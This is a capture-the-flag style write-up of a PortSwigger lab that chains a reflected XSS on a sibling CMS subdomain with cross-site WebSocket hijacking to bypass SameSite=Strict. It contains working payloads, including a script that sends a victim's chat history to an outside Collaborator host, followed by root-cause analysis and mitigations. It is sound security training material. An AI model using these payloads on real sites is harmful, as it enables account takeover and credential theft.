




# Lab 09: SameSite Strict Bypass via Sibling Domain

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 09
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — SameSite Strict Bypass via Sibling Domain + CSWSH + Reflected XSS

## Vulnerability Summary
The application protects its session cookie with `SameSite=Strict`, preventing cross-site requests from carrying the cookie. However, a sibling domain (`cms-<lab-id>.web-security-academy.net`) exists within the same site and contains a reflected XSS vulnerability in its login form. Because the sibling domain is same-site with the main application, JavaScript executing there can open a WebSocket to the main app with the victim's session cookie attached. Chaining the sibling XSS with a Cross-Site WebSocket Hijacking (CSWSH) payload exfiltrates the victim's chat history — which contains plaintext credentials — to Burp Collaborator, enabling full account takeover.

## Attack Methodology

### Step 1: Identify the WebSocket Endpoint
Navigated to the live chat feature and sent a few messages. In Burp Proxy HTTP history, found the WebSocket handshake:

```
GET /chat HTTP/2
Host: 0a7b009d0301e95980ef4ecf00a7004d.web-security-academy.net
Cookie: session=<token>
Upgrade: websocket
```

No unpredictable token in the handshake — potentially vulnerable to CSWSH. Refreshing the chat page causes the browser to send a `READY` message, after which the server replays the entire chat history.

### Step 2: Confirm CSWSH (Initial PoC)
Noted the session cookie is set with `SameSite=Strict`. A direct cross-site WebSocket from the exploit server would not carry the cookie. Confirmed this by hosting a basic CSWSH PoC on the exploit server and observing in Collaborator that the WebSocket connected but the session cookie was absent — only a new anonymous session was created.

### Step 3: Discover the Sibling Domain
Inspected responses for static resources and found an `Access-Control-Allow-Origin` header revealing:

```
cms-0a7b009d0301e95980ef4ecf00a7004d.web-security-academy.net
```

Visited the CMS subdomain and found a login form. Submitted arbitrary credentials — the username was reflected unsanitised in the error response:

```
Invalid username: <input_value>
```

### Step 4: Confirm Reflected XSS on Sibling Domain
Injected an XSS payload via the `username` parameter:

```
POST /login HTTP/2
Host: cms-0a7b009d0301e95980ef4ecf00a7004d.web-security-academy.net

username=<script>alert(1)</script>&password=anything
```

`alert(1)` fired — confirmed reflected XSS on the sibling domain.



Converted the POST to a GET in Burp Repeater and confirmed the XSS still triggers via URL:

```
GET /login?username=<script>alert(1)</script>&password=anything
```

### Step 5: Build the CSWSH Payload
Because the sibling domain is **same-site** with the main app, JavaScript executing there sends the `SameSite=Strict` session cookie to the main app's WebSocket endpoint. Crafted the CSWSH payload:

```javascript
var ws = new WebSocket('wss://0a7b009d0301e95980ef4ecf00a7004d.web-security-academy.net/chat');
ws.onopen = function() {
    ws.send("READY");
};
ws.onmessage = function(event) {
    fetch('https://piby1i4v1627vu0m4lzvv0hkfbl29sxh.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: event.data
    });
};
```

URL-encoded the entire script and injected it as the `username` parameter into the sibling domain's login endpoint.

### Step 6: Craft the Final Exploit
Hosted the following on the exploit server — it redirects the victim to the sibling domain's XSS vector, which executes the CSWSH payload in a same-site context:

```html
<script>
    var encodedPayload = "%3Cscript%3Evar%20ws%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a7b009d0301e95980ef4ecf00a7004d.web-security-academy.net%2Fchat%27%29%3Bws.onopen%3Dfunction%28%29%7Bws.send%28%22READY%22%29%3B%7D%3Bws.onmessage%3Dfunction%28event%29%7Bfetch%28%27https%3A%2F%2Fpiby1i4v1627vu0m4lzvv0hkfbl29sxh.oastify.com%27%2C%7Bmethod%3A%27POST%27%2Cmode%3A%27no-cors%27%2Cbody%3Aevent.data%7D%29%3B%7D%3B%3C%2Fscript%3E";
    document.location = "https://cms-0a7b009d0301e95980ef4ecf00a7004d.web-security-academy.net/login?username=" + encodedPayload + "&password=anything";
</script>
```



### Step 7: Exfiltrate Credentials
Delivered the exploit to the victim. Polled Burp Collaborator and received multiple HTTP interactions containing the victim's full chat history, including:

```json
{"user":"Hal Pline","content":"No problem carlos, it's bfe6djf0z16pd7c7tuxq"}
```



The password `bfe6djf0z16pd7c7tuxq` was extracted from the chat. Logged in as `carlos` — lab solved.

### Step 8: Results



Lab marked as **Solved**.

## Technical Root Cause

```javascript
// ❌ Vulnerable — sibling domain reflects input into page without sanitisation
// cms-<lab>.web-security-academy.net/login
app.get('/login', (req, res) => {
    const username = req.query.username;
    res.send(`Invalid username: ${username}`);  // unsanitised reflection → XSS
});

// ❌ WebSocket handshake has no CSRF token
// GET /chat — no Origin validation, no token
// SameSite=Strict only blocks cross-site; same-site sibling bypasses it

// ✅ Secure — validate Origin on WebSocket upgrade
wss.on('headers', (headers, req) => {
    const origin = req.headers['origin'];
    if (origin !== 'https://expected-origin.web-security-academy.net') {
        throw new Error('Forbidden');
    }
});
```

### Attack Chain

```
Exploit server (cross-site)
  → document.location to cms sibling (same-site navigation)
    → Reflected XSS executes CSWSH payload (same-site context)
      → WebSocket to /chat with SameSite=Strict cookie attached
        → Server sends READY response (full chat history)
          → fetch() exfiltrates each message to Collaborator
```

### Why SameSite=Strict Fails Here

| Request | Origin | Same-Site? | Cookie Sent? |
|---------|--------|-----------|--------------|
| Exploit server → main app (direct) | Cross-site | ❌ | ❌ Blocked |
| Exploit server → cms sibling (navigation) | Cross-site | ❌ | ❌ Blocked |
| cms sibling JS → main app WebSocket | Same-site | ✅ | ✅ Sent |

The sibling domain shares the registrable domain (`web-security-academy.net`), making it same-site. Any JavaScript executing there bypasses `SameSite=Strict` for requests to the main app.

## Impact
- **Full Account Takeover**: Plaintext credentials exfiltrated from chat history
- **SameSite=Strict Bypassed**: The strongest SameSite setting is defeated by a single XSS on any same-site subdomain
- **CSWSH Without Token**: WebSocket handshake has no CSRF protection beyond SameSite
- **Chained Vulnerabilities**: Three individually lower-severity issues (no WebSocket token + SameSite=Strict only + sibling XSS) combine into critical impact

## Proof of Concept

**Stage 1 — Exploit server payload**
```html
<script>
    document.location = "https://cms-LAB-ID.web-security-academy.net/login?username=URL_ENCODED_CSWSH_SCRIPT&password=anything";
</script>
```

**Stage 2 — CSWSH script (URL-encoded as username)**
```javascript
var ws = new WebSocket('wss://LAB-ID.web-security-academy.net/chat');
ws.onopen = function() { ws.send("READY"); };
ws.onmessage = function(event) {
    fetch('https://COLLABORATOR.oastify.com', {method:'POST', mode:'no-cors', body:event.data});
};
```

## Key Takeaways
1. **SameSite=Strict Is Only as Strong as the Weakest Sibling**: Any XSS on any subdomain sharing the same registrable domain breaks SameSite=Strict for the entire site.
2. **WebSocket Handshakes Need CSRF Protection Too**: The `GET /chat` upgrade request should validate a token or the `Origin` header — SameSite alone is insufficient.
3. **Sibling Domains Expand the Attack Surface**: Always audit all subdomains when assessing a SameSite-protected application. A CMS, staging, or auth subdomain is part of the same site.
4. **CSWSH = CSRF for WebSockets**: The same principles apply — if the handshake carries cookies and lacks a token, it's hijackable from any same-site context.
5. **Reflected XSS as a CSRF Primitive**: On a SameSite-protected site, a reflected XSS on any same-site origin is equivalent to a full CSRF bypass.

## Mitigation

### 1. Validate Origin on WebSocket Upgrade
```javascript
// ✅ Reject WebSocket connections from unexpected origins
wss.on('headers', (headers, req) => {
    const allowed = 'https://0a7b009d0301e95980ef4ecf00a7004d.web-security-academy.net';
    if (req.headers['origin'] !== allowed) throw new Error('Forbidden');
});
```

### 2. Fix the Reflected XSS on the Sibling Domain
```javascript
// ✅ Encode output before reflecting into HTML
const username = escapeHtml(req.query.username);
res.send(`Invalid username: ${username}`);
```

### 3. Add a CSRF Token to the WebSocket Handshake
```javascript
// Client sends token in handshake query param
const ws = new WebSocket(`/chat?csrf=${csrfToken}`);
// Server validates it before upgrading
```

### 4. Use SameSite=Strict + CSRF Tokens Together
SameSite is defence-in-depth, not a standalone control. CSRF tokens on state-changing endpoints and WebSocket handshakes ensure that bypassing SameSite alone is not sufficient.

## References
- [PortSwigger CSRF Lab - SameSite Strict Bypass via Sibling Domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)
- [PortSwigger WebSocket Security](https://portswigger.net/web-security/websockets)
- [PortSwigger Cross-Site WebSocket Hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Collaborator, WebSockets History)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-18*
*Writeup by vibhxr*
